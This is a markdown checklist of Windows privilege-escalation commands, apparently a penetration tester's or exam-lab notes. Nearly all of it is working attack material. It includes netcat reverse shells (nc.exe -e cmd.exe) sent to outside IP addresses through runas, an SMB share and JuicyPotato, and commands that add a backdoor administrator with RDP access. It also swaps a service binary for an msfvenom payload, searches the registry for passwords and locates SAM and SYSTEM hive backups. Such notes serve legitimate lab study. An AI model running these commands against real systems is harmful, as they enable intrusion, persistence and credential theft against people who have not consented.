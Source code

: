 # Windows Privilege Escallation
- [ ] OS and Kernel information: `systeminfo`
- [ ] Current User: `whoami /all`
  - [ ] [NT AUTHORITY\LOCAL SERVICE](https://itm4n.github.io/localservice-privileges/?ref=benheater.com); This will enable `SeImpersonatePrivilege`.
- [ ] Local Users: `net users`
- [ ] Local Groups: `net localgroup`
- [ ] Network interfaces: `ipconfig`
- [ ] Open Ports: `netstat -ano`
- [ ] `whoami /priv` ->
  - [ ] SeImpersonatePrivilege
    - [ ] [PrintSpoofer](https://github.com/itm4n/PrintSpoofer): SeImpersonatePrivilege + Microsoft Windows Server 2019 Standard = PrintSpoofer64.exe
  - [ ] `AlwaysInstallElevated`
- [ ] Check installed softwares: `c:\Program Files (x86)`
```
#https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
- [ ] Check file permissions: `icacls "\path\to\file"`
- [ ] If you find credentials, then you can use `runas` method to make connection with netcat
```
runas /user:administrator "C:\users\viewer\desktop\nc.exe -e cmd.exe 192.168.49.57 443"
```
- [ ] Check Unqouted Path Service
```
#FIND SERVICE
wmic service get name,displayname,pathname,startmode |findstr /i "auto"

#CHANGE FILE WITH MSFVENOM PAYLOAD (DOWNLOAD WITH CERTUTIL)

#REBOOT
shutdown /r
```
- [ ] Look for passwords in registries
```
req query HKLM /f pass /t REG_SZ /s
```

---

# SeImpersonatePrivilege
- [GodPotato](https://github.com/BeichenDream/GodPotato)

---

- Check if there is a port that is open only internally (`netstat –nao`)
- Port forward if there is a new port internally and start checking it from zero
- Creating admin user which has RDP access

```
net user /add haji haji
net localgroup administrators haji /add
net localgroup "Remote Desktop Users" haji /add
```

# Shell Upgrade
```
#COPY NETCAT
cp /usr/share/windows-resources/binaries/nc.exe .

#SERVE IT VIA SMB
smbserver.py -smb2support -username evil -password evil evil $PWD

#START LISTENER ON ANOTHER PORT
nc -lnvp 80

#Execute nc.exe by using the UNC path.
net use z: \\192.168.49.57\evil /user:evil evil
Z:\nc.exe 192.168.49.57 80 -e cmd.exe
```

# Juicy Potato
We can use one of the BITS CSLIDs from here:
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
```
juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.49.85 443" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

## Binary Hijacking


## DLL Hijacking


---

```
My first commands I use when getting a Windows shell are below. Enumerate OS etc, check for JuicyPotato, common password locations and running netstat.

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
whoami /priv
netstat –nao
dir C:\Windows\System32\config\RegBack\SAM
dir C:\Windows\System32\config\RegBack\SYSTEM
```
